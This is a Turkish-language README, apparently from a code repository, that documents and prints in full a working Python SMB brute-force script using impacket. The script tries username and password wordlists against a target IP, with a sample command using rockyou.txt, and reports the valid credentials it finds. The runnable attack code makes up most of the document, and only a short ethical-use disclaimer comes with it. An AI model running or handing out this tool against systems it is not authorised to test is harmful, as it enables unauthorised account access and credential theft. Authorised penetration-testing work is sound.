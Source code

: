 # SMB Brute Force Tool
### SMB Brute Force Script Dokümantasyonu

Bu dokümantasyon, `impacket` kütüphanesini kullanarak yazılmış olan SMB Brute Force Script'inin nasıl kullanılacağına dair detayları sağlar. Bu script, belirli bir hedef üzerinde sağlanan kullanıcı adı ve parola listelerindeki kombinasyonları deneyerek SMB giriş bilgilerini brute force yöntemiyle denemektedir.

#### Gereksinimler

Python'un yüklü olduğundan emin olun. Ayrıca `impacket` kütüphanesine de ihtiyacınız olacak, bunu `pip` kullanarak yükleyebilirsiniz:

```bash
pip install impacket
```

#### Script Açıklaması

Script şu işlevleri yerine getirir:

1. **smb_login_test**: Belirtilen kullanıcı adı ve parola ile hedef IP'deki SMB servisine giriş yapmayı dener.
2. **load_list_from_file**: Bir dosyadan kullanıcı adı veya parola listesini yükler, her bir girişin başındaki ve sonundaki boşlukları temizler.
3. **brute_force_smb**: Kullanıcı adı ve parola kombinasyonları üzerinden iterasyon yapar, her kombinasyon için `smb_login_test` fonksiyonunu çağırır.

#### Kullanım

Script'i `smb_bruteforce.py` adıyla bir dosyaya kaydedin ve gerekli argümanlarla birlikte terminalden çalıştırın.

##### Komut Satırı Argümanları

- `target_ip`: Hedef SMB sunucusunun IP adresi.
- `-l` veya `--userlist`: Kullanıcı adı listesini içeren dosyanın yolu.
- `-p` veya `--passlist`: Parola listesini içeren dosyanın yolu.

##### Örnek Komut

```bash
python smb_bruteforce.py 192.168.1.10 -l common_user.txt -p rockyou.txt
```

Bu örnekte:
- `192.168.1.10` hedef SMB sunucusunun IP adresidir.
- `-l common_user.txt` kullanıcı adı listesinin dosya yolunu belirtir.
- `-p rockyou.txt` parola listesinin dosya yolunu belirtir.

#### Script Açıklaması

```python
import argparse
from impacket.smbconnection import SMBConnection
import time

def smb_login_test(target_ip, username, password, domain='', timeout=10):
    try:
        smb_connection = SMBConnection(target_ip, target_ip)
        smb_connection.login(username, password, domain)
        print(f"[+] Login successful on {target_ip} with username '{username}' and password '{password}'")
        smb_connection.logoff()
        return True
    except Exception as e:
        print(f"[-] Login failed on {target_ip} with username '{username}' and password '{password}'")
        return False

def load_list_from_file(file_path):
    try:
        with open(file_path, 'r', encoding='ISO-8859-1') as file:
            return [line.strip() for line in file.readlines()]
    except Exception as e:
        print(f"Error reading {file_path}: {e}")
        return []

def brute_force_smb(target_ip, username_list, password_list, domain=''):
    for username in username_list:
        for password in password_list:
            if smb_login_test(target_ip, username, password, domain):
                print(f"[!] Valid credentials found: {username} / {password}")
                return True
            time.sleep(1)  # Sleep to avoid rapid requests that may lock accounts
    return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SMB Brute Force Script")
    parser.add_argument("target_ip", help="Target IP address")
    parser.add_argument("-l", "--userlist", required=True, help="Path to the username list file")
    parser.add_argument("-p", "--passlist", required=True, help="Path to the password list file")

    args = parser.parse_args()

    target_ip = args.target_ip
    username_file = args.userlist
    password_file = args.passlist

    username_list = load_list_from_file(username_file)
    password_list = load_list_from_file(password_file)

    if username_list and password_list:
        brute_force_smb(target_ip, username_list, password_list)
    else:
        print("Username list or password list is empty.")
```

### Detaylı Adımlar

1. **Gerekli Kütüphanelerin İçe Aktarılması**:
   Script, gerekli kütüphaneleri içe aktarır: `argparse` komut satırı argümanlarını işlemek için, `impacket` kütüphanesinden `SMBConnection` SMB bağlantıları için ve `time` login denemeleri arasında bekleme süresi eklemek için kullanılır.

2. **smb_login_test Fonksiyonunun Tanımlanması**:
   Bu fonksiyon, sağlanan kullanıcı adı ve parola ile SMB bağlantısı kurmaya çalışır. Başarılı olursa, başarılı olduğunu belirtir ve bağlantıyı kapatır. Başarısız olursa, hatayı belirtir.

3. **load_list_from_file Fonksiyonunun Tanımlanması**:
   Bu fonksiyon, belirtilen dosyayı okuyarak bir liste döner. Her satırı okur ve başındaki ve sonundaki boşlukları temizler. `ISO-8859-1` kodlamasını kullanarak özel karakterleri de düzgün okur.

4. **brute_force_smb Fonksiyonunun Tanımlanması**:
   Bu fonksiyon, kullanıcı adı ve parola listeleri üzerinden iterasyon yapar ve her kombinasyon için `smb_login_test` fonksiyonunu çağırır. Başarılı giriş bulunursa, geçerli kimlik bilgilerini yazdırır.

5. **Ana Çalışma Bloğu**:
   Script, komut satırı argümanlarını parse eder ve hedef IP, kullanıcı adı listesi dosyası ve parola listesi dosyası için argümanları alır. Bu listeleri yükler ve `brute_force_smb` fonksiyonunu çağırarak brute force saldırısını başlatır.

### Notlar

- **Etik Kullanım**: Bu script yalnızca etik hacking ve hedef sistemin sahibinin izni ile kullanılmalıdır.
- **Yasal Sonuçlar**: Bu script'in yetkisiz kullanımı yasa dışı olabilir ve cezai yaptırımlara tabi olabilir. Her zaman herhangi bir penetration testi aracını çalıştırmadan önce açık izin alın.

Bu dokümantasyon, SMB Brute Force Script'inin nasıl kullanılacağını ve anlaşılacağını sağlayan kapsamlı bir rehber sunar. Sorularınız varsa veya daha fazla yardıma ihtiyaç duyarsanız, lütfen bana bildirin.
